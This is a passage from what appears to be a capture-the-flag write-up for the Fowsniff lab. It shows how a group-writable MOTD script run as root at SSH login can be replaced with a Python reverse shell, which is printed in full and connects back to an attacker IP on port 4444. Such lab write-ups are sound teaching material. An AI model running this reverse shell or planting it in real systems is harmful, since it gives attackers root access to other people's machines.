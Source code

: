 The script `/opt/cube/cube.sh` is interesting because it displays the banner that is displayed when we connect to the SSH service. Besides, we can modify it.

~~~
kali@kali:/data/Fowsniff_CTF/files$ ssh baksteen@10.10.137.20
baksteen@10.10.137.20's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
~~~

This means that we can replace its content with a reverse shell.


# #12 - Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

We can get a python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Let's replace the content of `/opt/cube/cube.sh` with this code:

~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

# #13

**If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in `/etc/update-motd.d/` file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!**
